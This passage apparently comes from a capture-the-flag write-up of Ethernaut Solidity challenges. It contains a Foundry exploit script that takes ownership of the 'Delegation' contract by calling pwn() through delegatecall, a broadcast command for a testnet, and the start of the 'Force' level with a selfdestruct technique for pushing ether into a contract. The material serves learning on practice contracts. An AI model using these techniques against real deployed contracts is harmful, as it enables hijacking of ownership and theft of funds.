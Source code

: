```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/Delegation.sol";

contract DelegationSolution is Script {
    Delegation public delegationInstance = Delegation(<YOUR_INSTANCE>);

    function run() public {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        address(delegationInstance).call(
            abi.encodeWithSignature("pwn()")
        );
        console.log("Owner of the contract is currently:", delegationInstance.owner());
        console.log("My current address:", vm.envAddress("MY_ADDRESS"));
        vm.stopBroadcast();
    }
}
```

### POC

```bash
forge script script/DelegationSolution.s.sol --rpc-url $SEPOLIA_URL --broadcast
```

---

## Force

### Challenge code

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

This contract does not provide any payable functions, so you can’t send ether to it in the usual way.

However, it’s still possible to force ether into a contract by creating another contract, sending it ether, and then using `selfdestruct()` to forcefully push ether to the target.

